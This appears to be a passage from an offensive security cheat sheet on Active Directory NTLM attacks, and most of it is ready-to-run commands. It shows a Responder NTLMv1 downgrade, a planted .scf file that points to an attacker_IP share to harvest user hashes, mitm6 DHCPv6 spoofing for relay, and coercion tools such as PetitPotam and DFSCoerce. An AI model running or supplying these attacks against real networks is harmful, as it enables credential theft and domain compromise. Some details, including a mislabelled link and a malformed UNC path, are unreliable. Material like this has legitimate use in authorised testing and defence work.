Force NTLM downgrade to NTLMv1 (will break the authentications if v1 is disabled on the machine):

```bash
# --disable-ess will disable the SSP, not always usefull
responder -I interface_to_use -wdDv --lm --disable-ess
```

**NTLMv1** response can be cracked on [crash.sh](https://crack.sh/).

#### Leak Files

With write rights on a SMB share, it is possible to drop a `.scf` file with the following content to grab some user hashes:

```
[Shell]
Command=2
IconFile=\<attacker_IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

#### MITM6

(Python tool) Spoof DHCPv6 responses to provide evil DNS config. Usefull to combine with NTLM or Kerberos Relay attacks. Here for an NTLM relay:

```bash
mitm6 -i interface_to_use -d domain.local -hw target.domain.local -v
```

Here for a Kerberos relay to ADCS:

```bash
mitm6 -i interface_to_use -d domain.local -hw target.domain.local --relay CA.domain.local -v
```

#### PetitPotam / PrinterBug / ShadowCoerce / DFSCoerce / CheeseOunce

Exploits to coerce Net-NTLM authentication from a computer. **PetitPotam** can be used without any credentials if no patch has been installed.

```powershell
#PetitPotam
./PetitPotam.exe attacker_IP target_IP

#PrinterBug
./SpoolSample.exe target_IP attacker_IP

#ShadowCoerce
python3.exe shadowcoerce.py -d domain.local -u user1 -p password attacker_IP target_IP

#DFSCoerce
python3.exe dfscoerce.py -u user1 -d domain.local <listener_IP> <target_IP>

#CheeseOunce via MS-EVEN
./MS-EVEN.exe <listener_IP> <target_IP>
```
